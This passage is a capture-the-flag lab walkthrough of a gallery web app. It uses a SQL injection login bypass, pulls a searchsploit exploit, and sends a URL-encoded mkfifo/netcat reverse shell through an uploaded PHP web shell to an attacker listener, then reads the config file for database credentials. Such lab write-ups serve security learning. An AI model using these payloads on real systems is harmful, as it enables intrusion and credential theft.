 By looking at the exploit, we can see it's using the username `admin' or '1'='1'#` to bypass the password field.

Let's try on the website login page.

It works. We're in.

Let's look at the SQL injection exploit:

```bash
searchsploit -m php/webapps/50198.txt
```

Let's follow the instructions in it.

The vulnerable parameter is `id` in the `album` page.

After running `sqlmap` for a while, I didn't get much, so I choose a different path. We can already execute commands, so let's get shell.

After generating a command from [1] and url-encoding it, we get

```
http://10.10.209.207/gallery/uploads/1713145560_TagovdensfxevzbrjyaLetta.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%2010.6.31.49%204444%20%3E%2Ftmp%2Ff
```

while listening on port 4444:

```bash
nc -lnvp 4444 

listening on [any] 4444 ...
connect to [10.6.31.49] from (UNKNOWN) [10.10.209.207] 54066
bash: cannot set terminal process group (809): Inappropriate ioctl for device
bash: no job control in this shell
www-data@gallery:/var/www/html/gallery/uploads$
```

We have a shell. But we don't have permissions to get the user flag. But let's not get ahead of ourselves, we want the admin password for now.
Let's check the sql credentials, from `config.php`:

```php
<?php
ob_start();
ini_set('date.timezone','Asia/Manila');
date_default_timezone_set('Asia/Manila');
session_start();

require_once('initialize.php');
require_once('classes/DBConnection.php');
require_once('classes/SystemSettings.php');
$db = new DBConnection;
$conn = $db->conn;

function redirect($url=''){
        if(!empty($url))
        echo '<script>location.href="'.base_url .$url.'"</script>';
}
function validate_image($file){
        if(!empty($file)){
                        return base_url.$file;
                        exit;
                if(is_file(base_app.$file)){
                        return base_url.$file;
                }else{
                        return base_url.'uploads/no-image-available.png';
                }
        }else{
```